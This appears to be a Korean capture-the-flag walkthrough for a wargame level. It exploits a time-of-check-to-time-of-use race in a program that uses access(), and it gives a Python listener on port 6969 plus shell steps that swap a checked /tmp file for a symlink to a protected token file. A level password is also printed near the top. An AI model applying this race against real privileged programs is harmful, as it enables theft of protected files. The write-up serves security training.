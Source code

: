 > Password: s5cAJpM8ev6XHw998pRWG728z

# 접근 방법



access()를 통해서 파일의 실제 권한을 확인한 뒤에 나중에 그 파일의 내용을 서버로 보내는 프로그램인데

access()체크 뒤에 파일을 바꾸는 공격에 취약하다는 점을 이용함.

서버 소스
```python
from socket import socket, AF_INET, SOCK_STREAM

s = socket(AF_INET, SOCK_STREAM)
s.bind(("0.0.0.0", 6969))
s.listen(1)

input("PRESS ANY KEY TO CONTINUE")

conn, _ = s.accept()
recv_data = conn.recv(1024)
print(recv_data)
s.close()
```

1) /tmp 폴더에 적당한 파일을 생성
2) 서버 실행
3) level10프로그램 실행
4) 방금 생성한 파일과 같은 이름으로 token에 대한 소프트 링크 생성
5) 서버 실행 재개

```shell
> touch /tmp/test
> python /tmp/server.py
> ~/level10 /tmp/test localhost
> ln -s ~/token /tmp/test
> PRESS ANY KEY
```